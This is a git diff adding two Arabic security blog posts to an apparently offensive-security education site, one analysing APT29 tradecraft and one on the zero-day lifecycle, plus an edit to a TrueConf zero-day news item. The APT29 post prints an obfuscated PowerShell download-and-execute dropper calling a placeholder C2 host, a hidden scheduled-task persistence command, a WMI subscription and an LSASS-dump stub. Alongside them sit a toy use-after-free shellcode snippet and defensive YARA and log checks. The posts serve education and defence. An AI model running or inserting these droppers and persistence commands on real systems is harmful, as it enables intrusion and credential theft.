

📰 2026-04-02 · خبر + 3 مقالات

diff --git a/_blogs/2026-04-02-apt29-tactics.md b/_blogs/2026-04-02-apt29-tactics.md
@@ -1,0 +1,160 @@
+---
+layout: blog
+title: "APT29 (Cozy Bear): تشريح تكتيكات مجموعة التجسس الروسية الأكثر تطوراً في الهجمات السيبرانية"
+date: 2026-04-02T06:09:38Z
+category: "تحليل"
+excerpt: "APT29 أو Cozy Bear تمثل واحدة من أخطر مجموعات التهديد المستمر المتقدم المرتبطة بالاستخبارات الروسية. تميزت هذه المجموعة بتكتيكات متطورة تجمع بين الصبر الاستراتيجي والابتكار التقني. سنحلل في هذا المقال أبرز أساليبها الهجومية وكيف تطورت عبر السنوات، مع أمثلة عملية لفهم طريقة عملها."
+read_time: 8
+tags: ["APT29", "Threat Intelligence", "Red Team", "MITRE ATT&CK", "Russian APT"]
+slug: "apt29-tactics"
+image: "/OffsecAR/assets/images/blogs/apt29-tactics.png"
+---
+
+## السياق والخلفية التشغيلية
+
+تُعرف APT29 بأسماء متعددة: Cozy Bear، The Dukes، Yttrium. تعمل المجموعة منذ 2008 على الأقل، وتُنسب إلى جهاز الاستخبارات الخارجية الروسي SVR. تستهدف بشكل أساسي الحكومات الغربية، مراكز الأبحاث، والقطاع الصحي.
+
+ما يميز APT29 هو نهجها الاستراتيجي طويل المدى. لا تبحث عن مكاسب سريعة، بل تُثبّت نفسها في الشبكات لشهور أو سنوات. تستخدم toolsets مخصصة نادراً ما تُعاد استخدامها، مما يجعل detection أكثر صعوبة.
+
+## سلسلة الهجوم: Initial Access
+
+تعتمد المجموعة بشكل كبير على **Spear Phishing** متطور. الرسائل مصممة بعناية فائقة، غالباً تنتحل هويات موثوقة مثل think tanks أو منظمات دولية.
+
+مثال على payload delivery:
+
+```powershell
+# Obfuscated PowerShell dropper
+$url = "hxxps://legitimate-looking-domain[.]com/doc.pdf"
+$path = "$env:TEMP\document.pdf"
+
+# Download decoy document
+Invoke-WebRequest -Uri $url -OutFile $path
+Start-Process $path
+
+# Download and execute stage 2
+$enc = "aHR4cHM6Ly9jMi5leGFtcGxlW10uY29tL3N0YWdlMg=="
+$c2 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($enc))
+IEX (New-Object Net.WebClient).DownloadString($c2)
+```
+
+يستخدمون أيضاً **Supply Chain Attacks** كما في حادثة SolarWinds 2020، حيث اخترقوا build system لزرع backdoor في تحديثات Orion.
+
+## Persistence والتخفي
+
+APT29 تُبدع في الحفاظ على الوصول دون إثارة الشبهات:
+
+### WellMess وWellMail
+malware مخصص يستخدم:
+- **HTTP/HTTPS** للاتصال بـ C2 لتبدو كـ legitimate traffic
+- **Cookie-based encoding** لإخفاء الأوامر
+- **DNS tunneling** كـ fallback channel
+
+### Living off the Land
+تعتمد بشكل كبير على أدوات Windows الأصلية:
+
+```cmd
+REM Scheduled task persistence
+schtasks /create /tn "Windows Update Check" /tr "powershell.exe -w hidden -enc <base64_payload>" /sc onlogon /ru System
+
+REM WMI event subscription
+$filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
+    Name = "SystemUpdate";
+    EventNamespace = "root\cimv2";
+    QueryLanguage = "WQL";
+    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
+}
+```
+
+## Credential Access والتحرك الجانبي
+
+بعد الاستقرار، تبدأ المرحلة الأخطر:
+
+### Mimikatz والبدائل
+رغم شهرة Mimikatz، يستخدمون نسخاً معدلة أو أدوات custom:
+
+```python
+# Custom LSASS dump technique
+import ctypes
+import struct
+
+def dump_lsass():
+    # Open LSASS process with PROCESS_QUERY_INFORMATION
+    PROCESS_QUERY = 0x0400
+    PROCESS_VM_READ = 0x0010
+    
+    lsass_pid = get_lsass_pid()
+    h_process = ctypes.windll.kernel32.OpenProcess(
+        PROCESS_QUERY | PROCESS_VM_READ,
+        False,
+        lsass_pid
+    )
+    
+    # Use MiniDumpWriteDump to memory
+    # Encrypted and exfiltrated in chunks
+```
+
+### Lateral Movement
+يفضلون:
+- **Pass-the-Hash/Pass-the-Ticket** عبر Kerberos
+- **RDP** مع stolen credentials
+- **PSExec variants** للتنفيذ عن بعد
+
+## Data Exfiltration والتكتيكات المتقدمة
+
+التسريب يتم بحذر شديد:
+
+### Steganography
+إخفاء البيانات في صور تُرفع لخدمات مشروعة:
+
+```python
+from PIL import Image
+import numpy as np
+
+def embed_data(image_path, data):
+    img = Image.open(image_path)
+    img_array = np.array(img)
+    
+    # Embed in LSB of pixels
+    data_bits = ''.join(format(ord(c), '08b') for c in data)
+    data_index = 0
+    
+    for i in range(img_array.shape[0]):
+        for j in range(img_array.shape[1]):
+            if data_index < len(data_bits):
+                img_array[i][j][0] = (img_array[i][j][0] & 0xFE) | int(data_bits[data_index])
+                data_index += 1
+    
+    return Image.fromarray(img_array)
+```
+
+### Cloud Exploitation
+في الحملات الأخيرة، استهدفوا:
+- **Azure AD** للوصول لـ cloud resources
+- **OAuth tokens** للحفاظ على access حتى بعد password resets
+- **Microsoft 365** mailboxes للتجسس
+
+## الدروس المستفادة للدفاع
+
+لمواجهة APT29، يجب:
+
+1. **EDR المتقدم**: لا يكفي Antivirus التقليدي
+2. **Network Segmentation**: لتصعيب lateral movement
+3. **MFA في كل مكان**: خاصة للوصول الامتيازي
+4. **Hunt Proactively**: انتظار الـ alerts لا يكفي
+5. **Monitor Cloud**: خاصة authentication logs وpermission changes
+
+المجموعة تتطور باستمرار. ما نجح في كشفها أمس قد لا ينجح غداً. الفهم العميق لـ TTPs والتفكير كـ attacker هو خط الدفاع الأول.
+
+```yaml
+# YARA rule example for WellMess detection
+rule APT29_WellMess {
+    meta:
+        description = "Detects WellMess malware"
+    strings:
+        $s1 = "Content-Type: application/x-www-form-urlencoded" ascii
+        $s2 = "POST" ascii
+        $hex = { 48 8B 4C 24 ?? 48 8B 44 24 ?? }
+    condition:
+        uint16(0) == 0x5A4D and all of ($s*) and $hex
+}
+```

diff --git a/_blogs/2026-04-02-zero-day-lifecycle.md b/_blogs/2026-04-02-zero-day-lifecycle.md
@@ -1,0 +1,128 @@
+---
+layout: blog
+title: "Zero-Day: رحلة الثغرة من لحظة الاكتشاف حتى الاستغلال في الهجمات الحقيقية"
+date: 2026-04-02T06:11:25Z
+category: "تحليل"
+excerpt: "ثغرات Zero-Day تمثل الكنز الأثمن في عالم Offensive Security. الفترة بين اكتشاف الثغرة واستغلالها تحدد مصير أنظمة بأكملها. في هذا التحليل، نفكك دورة حياة الثغرة من المختبر إلى ساحة المعركة الرقمية."
+read_time: 8
+tags: ["Zero-Day", "Exploit Development", "Vulnerability Research", "Threat Intelligence", "Offensive Security"]
+slug: "zero-day-lifecycle"
+image: "/OffsecAR/assets/images/blogs/zero-day-lifecycle.png"
+---
+
+## الفجوة الزمنية: ما الذي يجعل Zero-Day مميتة؟
+
+المصطلح Zero-Day يشير لثغرة أمنية لم يعلم بها المطور بعد، أو علم بها لكن لم يصدر patch لها. الرقم "صفر" يعني عدد الأيام المتاحة للدفاع قبل الاستغلال. هذه الفجوة الزمنية هي ما يحول ثغرة عادية إلى سلاح استراتيجي.
+
+القيمة الحقيقية للـ Zero-Day تكمن في ثلاثة عوامل: الانتشار الواسع للنظام المستهدف، صعوبة اكتشاف الاستغلال، وعدم وجود أي دفاعات جاهزة. شركات كبرى تدفع ملايين الدولارات لشراء هذه الثغرات، بينما threat actors يستغلونها في حملات متقدمة.
+
+## مراحل اكتشاف الثغرة: من Fuzzing إلى PoC
+
+اكتشاف Zero-Day ليس صدفة في معظم الحالات. الباحثون يستخدمون تقنيات منهجية لكشف نقاط الضعف:
+
+### Fuzzing المتقدم
+
+أدوات مثل AFL++ وLibFuzzer تضخ ملايين الـ inputs العشوائية للبرنامج المستهدف. الهدف: إيجاد crash غير متوقع يكشف عن memory corruption أو logic flaw.
+
+```python
+# مثال بسيط لـ Fuzzer يستهدف parser
+import atheris
+import sys
+
+def test_parser(data):
+    fdp = atheris.FuzzedDataProvider(data)
+    try:
+        input_string = fdp.ConsumeUnicodeNoSurrogates(1024)
+        # استدعاء الـ parser المستهدف
+        vulnerable_parse_function(input_string)
+    except Exception as e:
+        # تجاهل الـ exceptions المتوقعة فقط
+        if "critical" in str(e).lower():
+            raise
+
+atheris.Setup(sys.argv, test_parser)
+atheris.Fuzz()
+```
+
+### Code Auditing الموجه
+
+قراءة الكود المصدري (إن توفر) أو Reverse Engineering للبحث عن patterns خطيرة: buffer overflows، integer overflows، use-after-free، أو race conditions.
+
+## من Bug إلى Exploit: هندسة الاستغلال
+
+اكتشاف الثغرة هو البداية فقط. تحويلها لـ exploit قابل للاستخدام يتطلب مهارات متقدمة:
+
+### بناء Primitive موثوق
+
+الـ exploit يجب أن يعمل بشكل موثوق عبر configurations مختلفة. هذا يعني:
+
+- تجاوز ASLR عبر information leak
+- Bypassing DEP باستخدام ROP chains
+- Defeating Control Flow Guard عبر تقنيات متقدمة
+
+```c
+// مثال: استغلال Use-After-Free بسيط
+void* freed_object = malloc(0x100);
+free(freed_object);  // Object محرر
+
+// إعادة استخدام الـ memory
+char* controlled_data = malloc(0x100);
+memcpy(controlled_data, shellcode, sizeof(shellcode));
+
+// استدعاء الـ dangling pointer
+((void(*)())freed_object)();  // تنفيذ shellcode
+```
+
+### Weaponization: جعل الاستغلال عملي
+
+الـ PoC النظري يختلف عن الـ exploit العملي. يجب:
+
+- إخفاء الـ payload من detection systems
+- ضمان stability بعد الاستغلال
+- إضافة fallback mechanisms
+- بناء delivery mechanism فعال
+
+## السوق السوداء: اقتصاديات Zero-Day
+
+ثغرات Zero-Day لها سوق نشط بين:
+
+**Government contractors**: شركات مثل Zerodium وCrowdfense تدفع $2.5 مليون لـ iOS zero-click RCE. هذه الثغرات تذهب لأجهزة استخبارات ووكالات حكومية.
+
+**Bug Bounty Programs**: شركات تدفع مبالغ أقل لكن بشكل قانوني. Microsoft وGoogle يدفعون حتى $250,000 للثغرات الحرجة.
+
+**Underground Markets**: أسواق مظلمة تبيع exploits لـ cybercriminals. الأسعار أقل لكن المخاطر القانونية أعلى.
+
+## دورة الحياة: من Disclosure إلى Patch
+
+بعد اكتشاف الثغرة، عدة مسارات ممكنة:
+
+### Responsible Disclosure
+
+الباحث يبلغ الشركة سراً، يمنحها 90 يوماً للـ patch، ثم ينشر التفاصيل. هذا الطريق يحمي المستخدمين لكن يؤخر الـ recognition.
+
+### Full Disclosure
+
+نشر الثغرة فوراً يضغط على الشركات للتحرك سريعاً، لكن يعرض المستخدمين للخطر قبل توفر patch.
+
+### Zero-Day in the Wild
+
+عندما تُستغل الثغرة قبل أي disclosure، السباق يبدأ. فرق Security تحلل الهجمات، تستخرج الـ exploit، وتطور signatures للكشف عنها.
+
+```bash
+# مثال: كشف exploitation attempts عبر System logs
+sudo ausearch -m avc -ts recent | grep -E "(segfault|exploit|shellcode)"
+
+# مراقبة anomalous process creation
+sudo sysmon -i && grep -A 5 "ProcessCreate" /var/log/sysmon.log
+```
+
+## الدفاع: كيف تحمي نفسك من المجهول؟
+
+لا يمكن patch ما لا تعرفه، لكن يمكن تقليل surface attack:
+
+- **Defense in Depth**: طبقات أمنية متعددة تجعل الاستغلال أصعب
+- **Runtime Protection**: أدوات مثل EMET وWindows Defender Exploit Guard
+- **Network Segmentation**: عزل الأنظمة الحرجة
+- **Behavioral Detection**: مراقبة السلوك بدل البحث عن signatures معروفة
+
+الواقع القاسي: مهما كانت دفاعاتك قوية، Zero-Day جيدة الصنع ستخترقها. السؤال ليس "هل"، بل "متى" و"كم من الوقت حتى الكشف".

diff --git a/_posts/2026-04-02-offensec-2026-04-02.md b/_posts/2026-04-02-offensec-2026-04-02.md
@@ -1,7 +1,7 @@
 ---
 layout: post
-title: "ثغرة Zero-Day في خوادم TrueConf تتيح للمهاجمين تنفيذ ملفات خبيثة على جميع الأجهزة المتصلة"
-date: 2026-04-02T05:47:00Z
+title: "ثغرة zero-day في خوادم TrueConf تُمكّن المهاجمين من تنفيذ ملفات خبيثة على جميع الأجهزة المتصلة"
+date: 2026-04-02T06:08:44Z
 category: "ثغرة حرجة"
 severity: "حرجة"
 severity_en: "critical"
@@ -11,10 +11,10 @@ source: "BleepingComputer"
 source_url: "https://www.bleepingcomputer.com/news/security/hackers-exploit-trueconf-zero-day-to-push-malicious-software-updates/"
 tweet_url: ""
 image: "/assets/images/2026-04-02-post.png"
-hashtags: "#أمن_المعلومات #ZeroDay #TrueConf #ثغرات #الأمن_السيبراني"
+hashtags: "#أمن_المعلومات #zero_day #TrueConf #الأمن_السيبراني #ثغرات"
 ---
 
-كشف باحثون أمنيون عن حملة هجومية نشطة تستغل ثغرة zero-day في خوادم مؤتمرات TrueConf. تتيح الثغرة للمهاجمين تنفيذ ملفات عشوائية على جميع نقاط النهاية المتصلة بالخادم المُخترق. يستغل المهاجمون آلية التحديثات البرمجية لدفع تحديثات خبيثة للمستخدمين. خطورة الثغرة تكمن في قدرتها على الانتشار السريع عبر البنية التحتية للمؤسسة. تُعد هذه الهجمات نموذجًا متقدمًا لهجمات supply chain عبر منصات الاتصالات المؤسسية. لم تُصدر TrueConf ترقيعًا أمنيًا بعد، مما يجعل التخفيف الفوري ضرورة ملحة.
+كشف باحثون أمنيون عن حملة هجومية نشطة تستهدف خوادم TrueConf للمؤتمرات المرئية. يستغل المهاجمون ثغرة zero-day غير معلنة التفاصيل بعد. الخطورة تكمن في قدرة الثغرة على تنفيذ ملفات عشوائية على جميع الأجهزة الطرفية المتصلة بالخادم المُخترق. آلية الهجوم تعتمد على استغلال نظام التحديثات الموثوق، مما يجعل الكشف صعباً. المنظمات التي تعتمد TrueConf للاتصالات الداخلية معرضة لخطر اختراق واسع النطاق. يُنصح بمراجعة سجلات الخوادم فوراً وعزل الأنظمة المشتبه بها حتى صدور تحديث أمني رسمي.
 
 ---
 
